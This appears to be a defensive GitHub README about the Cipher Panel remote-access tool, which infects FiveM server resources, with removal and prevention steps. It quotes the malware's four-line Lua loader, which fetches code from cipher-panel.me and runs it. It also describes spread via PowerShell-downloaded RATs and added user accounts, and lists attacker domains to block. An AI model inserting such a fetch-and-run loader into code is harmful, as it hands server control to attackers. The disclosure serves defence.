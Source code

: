 <h1 align="center"><a href="https://discord.gg/kJdBQQcesA">ProjectEndCipher Discord Server</a></h1>

# Cipher Panel
Cipher is a paid Remote Execution/Administration Tool (RAT). Cipher's customers generate 4 lines of Lua code to inject into resources (many of them obfuscate the code) which will download remote code from the Cipher servers. We've found many leaked resources are infected with Cipher-Panel. This repository will talk more about how Cipher works.



# How Cipher Works
Cipher works by releasing infected code/resources to the FiveM public. Server owners/developers take the code (that they don't know is infected) and install it on their servers. Once the resource is installed and ran it will inject its code into other previously clean resources.

The initial infected code boils down to the following:

```Lua
PerformHttpRequest('https://Cipher-panel.me/_i/i?to=UNIQUECODE', function (e, d)
	local s = assert(load(d))
	if (d == nil) then return end 
	s() 
end)
```

The Unique Code in the URL request is the Cipher user that now has control of your server. Once this code is run it downloads the remote code (from Cipher) and runs it on line 4 as a function.

This is the basis on how most of Cipher works. It proceeds to download several more requests (found in the code returned by Cipher) and will continue until it injects more pre-existing resources.

After the code is run, it will upload some javascript and override existing files within the system builders directory. 

`resources\[system]\[builders]` 

The code will start propagating itself within all of your resources and files within the FiveM server installation to make it difficult to remove.

At this stage, its armageddon and all files within the server are compromised meaning files can be downloaded, uploaded, edited and viewed, including but not limited to just the server.cfg, sql credentials or even steal your cfx license keys. They’re also able to run remote code on the server which leads to the last step.

Cipher is a rat that has the capability of gaining full system administrator access to take over the host machine it's run on. It does this by using powershell to download a rat executable and also add / alter users to provide remote desktop access to your server. This back door approach also supports linux too. 

Cipher customers have been seen attempting to extort servers for money paid in crypto currency in exchange to deter the user of Cipher from deleting the server entirely. 

Read Infection Documentation for more information on what it expands into.



# How To Remove Cipher

If you have been infected with Cipher, this is what you must do:

Disconnect from the internet your server and access it via KVM (if possible).

Blacklist their domains on your firewall. This will slow them down however we have seen instances where they will use proxies to evade this but on most leaks this will help.

Edit the hosts file `C://windows/system32/drivers/etc/hosts` and add.

```
127.0.0.1 cipher-panel.me 
127.0.0.1 ciphercheats.com
127.0.0.1 keyx.club
127.0.0.1 dark-utilities.xyz
```

Install an antivirus software on the host machine to scan for any backdoors / RATs. 

Check the system admins on the machine to verify that no unauthorized accounts exist.

Change any passwords you have on the host machine to ensure that they don’t have access.

While your FiveM server is turned off, use the provided Python script to install a nullifier which will help prevent future infections of Cipher and tell you what files are infected. 
 
You can also install this code manually however we expect Cipher will attempt to patch this.

scheduler.lua


**Make sure you do not run your FiveM server as ROOT (Linux) or Administrator (Windows)**



# Other things you can do to prevent being attacked by Cipher

Consider adding the [Warden](https://discord.com/invite/jeFeDRasfs) to your discord server. Warden is a great resource that can help remove cheaters and leakers (people who participate in sharing leaked paid resources) from your community or support hack products like Cipher. 

Make sure to install the latest updates of whatever framework you are using for 

[ESX](https://github.com/esx-framework/esx-legacy) | [ESX Discord](https://discord.esx-framework.org)

[QBCore](https://github.com/qbcore-framework/qb-core) | [QBCore Discord](https://discord.gg/qbcore) 

Consider investing in a good anticheat for your server like [Phoenix Anticheat](https://discord.com/invite/pac) or [FiveEye](https://dsc.gg/FiveEye) or any other anti-cheat that you feel comfortable using. (Currently we are working with multiple anticheat providers to patch Cipher. The progress made will be shown here.) 

Buy resources from only reputable places that you feel comfortable purchasing from either Tebex listed stores or from places like [Modit](https://modit.store/), if you're unsure about a store, perhaps ask for guidance on the warden discord. 

Be extremely sketchy on code you get that is encrypted or downloaded from shady sources.

Lastly, the most important thing… DON'T USE LEAKED RESOURCES!


## Cipher Customers

If you are a customer of Cipher, we suggest canceling your subscriptions and getting a refund.
